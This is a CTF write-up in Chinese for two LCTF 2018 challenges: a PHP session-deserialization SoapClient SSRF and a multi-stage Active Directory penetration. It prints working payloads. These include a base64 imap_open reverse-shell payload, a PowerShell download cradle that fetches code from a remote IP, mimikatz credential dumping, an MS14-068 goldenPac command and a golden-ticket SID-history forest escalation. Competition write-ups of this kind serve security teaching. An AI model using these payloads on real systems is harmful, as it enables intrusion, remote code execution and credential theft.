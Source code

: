### babyphp's revenge
代码如下
index.php
```php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET[f],$_POST);
session_start();
if(isset($_GET[name])){
    $_SESSION[name] = $_GET[name];
}
var_dump($_SESSION);
$a = array(reset($_SESSION),'welcome_to_the_lctf2018');
call_user_func($b,$a);
?>
```
flag.php
```php
session_start(); echo 'only localhost can get flag!'; $flag = 'LCTF{*************************}'; if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){ $_SESSION['flag'] = $flag; } 
```
hint:反序列化
这题是我出给XCTF Final的bestphp的第二版，搭建看到flag.php的内容也能猜出来是ssrf。大体思路也是session_start支持一个数组参数，可以覆盖php.ini中的部分session相关变量，而session中有个叫做serialize_handler的参数
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/9F6A76C83EA36A7B5E2B37D26D951FF2.jpg)
可以控制session的解析引擎，所以可以借用由解析引擎的不同导致的session反序列化，构造soap类ssrf，获取flag
但是这里有个问题就是如何进行ssrf构造，众所周知soap的ssrf需要调用_call方法，但是这里如何触发呢，我们回到call_user_func
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-19_14-59-44.png)
这里可以发现我们可以直接使用call_user_func执行对象中的方法，由于我们只需要构造出一个soap类的对象就可以执行`welcome_to_the_lctf2018`的方法，因为这个方法不存在，所以我们相当于调用了_call方法
```php
$target='http://127.0.0.1/flag.php';
$b = new SoapClient(null,array('location' => $target,
                               'user_agent' => "AAA:BBB\r\n" .
                                             "Cookie:PHPSESSID=dde63k4h9t7c9dfl79np27e912",
                               'uri' => "http://127.0.0.1/"));

$se = serialize($b); 
echo urlencode($se);
```


里主要思路是通过php session引擎的不同，导致自动反序列化soap内置类，最终ssrf读到flag

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/121C2F45BD0C6C978579565B052B32C4.jpg)
!()[https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/3FFB2A23BA3AF86034D45C718554A964.jpg)

# god of domain-pentest writeup
前排先感谢各位师傅的手下留情，让我们的运维压力少了不少压力。
整个域环境其实挺难搭的，尤其是搭在腾讯云上，由于腾讯云只支持windowsserver虚拟机，以及本地管理员用户登录，导致我无法在172.21.0.8上登录域用户，所以大家也无法抓到域用户的密码，所以只好把域用户写到题目描述中了。
### 拓扑
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-19_00-57-40.png)

### 入口

首先代码如下
```php
 <?php
highlight_file(__FILE__);
$lshell=$_GET['lshell'];
eval($lshell);
var_dump($lshell);
NULL 
```
#### 解法一 
入口很简洁，一上来就给了你一个一句话木马，但是看一下phpinfo会发现我限制了严格的disable_function和open_basedir
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_17-08-33.png)
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_17-08-33.png)
这里首先我们最终目的是bypass open_basedir，查看任意目录的文件，但是常用的方法我都禁止了，所以解决问题还得回到bypass disable_function,这里丢一个最新的bypass方式
```
https://github.com/Bo0oM/PHP_imap_open_exploit
```
可以通过这个payload反弹shell
```
%24server%20%3D%20%22x%20-oProxyCommand%3Decho%5CtY3VybCB2cHMucHVwaWxlcy5jb218cHl0aG9u%7Cbase64%5Ct-d%7Csh%7D%22%3B%0Aimap_open(%27%7B%27.%24server.%27%3A143%2Fimap%7DINBOX%27%2C%20%27%27%2C%20%27%27)%20or%20die(%22%5Cn%5CnError%3A%20%22.imap_last_error())%3B
```
/var/www/ew.txt
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_17-22-52.png)
这里提供了10个socks5 端口代理，供各位师傅代理进内网，
#### 解法二
nmap直接扫，发现1080-1090端口开放是代理端口，直接链接
#### 解法三
ROIS的师傅构造了一个一句话版的regork，膜
地址[https://github.com/zsxsoft/reGeorg](https://github.com/zsxsoft/reGeorg)
### 子域-PC
这里有两种方式可以getshell
1. proxychains4 代理一下nmap扫内网，发现172.21.0.8开放了80端口，访问一看是个内网的phpstudy，那就可以用默认密码root，root登录phpmyadmin，修改general log为ON，general log file为C:\phpStudy/PHPTutorial/WWW/xxxx.php
可以getshell
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_17-40-14.png)
2. ms17-010直接打


getshell后打开cmd使用cobaltstrike的payload
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_17-53-37.png)
!()[https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_17-52-09.png]
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://139.199.27.197:8000/aaa'))"
```
在shell上执行，可以得到回弹的shell
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_17-54-56.png)
查看下权限是本地管理员权限，那么可以直接用mimikatz抓取密码
!()[https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_17-55-47.png]
根据题目描述，域用户为web.lctf.com\buguake,密码为xdsec@lctf2018
### 子域-域控
通过
```
ipconfig /all
```
可以得到子域域控的ip地址
```
172.21.0.7
```
收集域控信息
```
nltest /dsgetdc:web.lctf.com
```
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_18-14-28.png)
可以得到域控的hostname
一切准备妥当后，我们可以尝试一下ms14-068拿子域域控
```
python goldenPac.py -dc-ip 172.21.0.7 -target-ip 172.21.0.7 web.lctf.com/buguake:'xdsec@lctf2018'@sub-dc
```
getshell
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_18-20-31.png)
### 父域-域控
老规矩通过
```
ipconfig /all
```
可以得到父域域控的ip地址
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_18-21-33.png)
```
172.17.0.10
```
收集父域域控的信息
```
nltest /dsgetdc:lctf.com
```
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_18-22-21.png)
这里是本题重要的一个考点，修复了14-068，想拿父域域控需要设计到跨域渗透的问题。所以我们可以利用域信任关系的漏洞进行攻击
参考资料[http://www.4hou.com/technology/10049.html](http://www.4hou.com/technology/10049.html)
如文中提到
```
由于信任在Active Directory林中工作原理的原因，sidHistory属性（PAC中的“ExtraSids”）在林的域内比较重要，因为这些SID在“SID筛选”保护的跨域引用中未被滤除掉。因此，将其sidHistory 或 ExtraSids设置为“Enterprise Admins”SID（仅存在于林根中的域用户组）的子域中的任何用户将有效地工作，就好像他们是企业管理员一样。正如微软已经知道这是一个问题，而且至少从 2005年的ITPro Windows文章以及几乎可以肯定之前的知识已经完全公开，sidHistory 是一个非常难以修改的受保护的属性。
```
我们可以通过设置一个用户的sidHistory 或 ExtraSids为“Enterprise Admins”SID，也就是企业管理员组的SID(企业管理员组由每个域的域管组成),这样当我们尝试访问一个新的资源时，如果SID或SID历史记录匹配，则根据ACL中指定的访问权限授予我们访问权限。
那么我们应该如何伪造这个sid history呢，这里我们就用到了黄金票据（一种有效的TGT Kerberos票据，因为它是由域Kerberos帐户（KRBTGT）加密和签名的）的原理，只要我们能获得域账户krbtgt的hash值，便可以对其任意域用户的sid history进行操控。
参考链接:[https://www.cnblogs.com/backlion/p/8127868.html](https://www.cnblogs.com/backlion/p/8127868.html)
获取子域和父域的sid
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_18-28-15.png)
获取子域控krbtgt的密码hash值
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/46D2D12CCECD550E30F656A20E24AA91.png)
```
kerberos::golden /admin:administrator /domain:web.lctf.com /sid:S-1-5-21-508737280-3758319117-1445457868 /sids:S-1-5-21-35370905-2178818314-1839806818-519 /krbtgt:42cb5299c2e40ad7d04cb2d7d16f3a46 /startoffset:0 /endin:600 /renewmax:10000 /ptt
```
查看票证是否注入成功
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/D89E0D7EB2290FA511118DF6D774FE18.png)

flag就在父域域控的桌面上
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/8A4D695EA9F3BD06D351F19458B8246B.png)

